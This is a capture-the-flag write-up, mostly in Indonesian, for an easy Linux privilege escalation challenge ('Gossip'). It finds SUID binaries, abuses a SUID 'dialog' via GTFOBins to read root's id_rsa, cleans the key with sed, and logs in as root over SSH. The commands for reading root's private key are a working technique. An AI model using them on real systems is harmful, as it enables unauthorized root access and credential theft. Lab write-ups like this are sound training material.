 # Gossip
#easy #privilegeescalation


Ssshh, don't talk too loud! These conversations and gossip are only for us privileged users ;)  
  
Escalate your privileges and retrieve the flag out of root's home directory.  
  
There is intentionally no `/root/flag.txt` file present.

## Target
- Di sini kita terhubung dengan ssh sebagai user biasa, kemungkinan flag terdapat di root folder.
![](attachments/Pasted%20image%2020220506135315.png)

## Solusi
- Salah satu cara untuk melakukan privilege escalation adalah mencari SUID atau permission 4000 pada Linux.
```sh
find / -type f -perm -4000 2>/dev/null
```
![](attachments/Pasted%20image%2020220506135830.png)

- Terdapat dialog pada gtfobin: https://gtfobins.github.io/#dialoog.
![](attachments/Pasted%20image%2020220506135936.png)

- Coba bermain dengan dialog
```shell
dialog --fselect /root 100 100
```

- Kita tidak bisa membaca getflag, karena adalah binary executable. Namun di sana terdapat `id_rsa` yang bisa digunakan untuk melakukan eskalasi.
![](attachments/Pasted%20image%2020220506141124.png)

- Yups terbaca sebuah kunci untuk melakukan ssh.
![](attachments/Pasted%20image%2020220506141245.png)

- Kita paste id_rsa tersebut, namun file yang dihasilkan sangat kotor. Terdapat banyak sekali spasi dan tanda `|` yang menyebabkan kunci ini tidak bisa dipakai.
![](attachments/Pasted%20image%2020220506141551.png)

- Dengan menggunakan sed, kita bersihkan id_rsa tersebut.
```sh
sed -i 's/│//g'
sed -i 's/^[ /t]*//g'
sed -i 's/[ /t]*$//g'
```

- Hasil setelah dibersihkan dari karakter yang tidak digunakan.
![](attachments/Pasted%20image%2020220506144420.png)

- Dicek apakah id_rsa ini sudah bisa digunakan?
![](attachments/Pasted%20image%2020220506150158.png)

- Sebagai persyaratan untuk konek ke ssh, permission harus sesuai.
```sh
chmod 400 id_rsa
```

- Konek ke ssh menggunakan id_rsa yang sudah dibersihkan.
```sh
ssh -i "id_rsa" -p 31366 root@challenge.nahamcon.com
```

- Get flag!
![](attachments/Pasted%20image%2020220506150614.png)
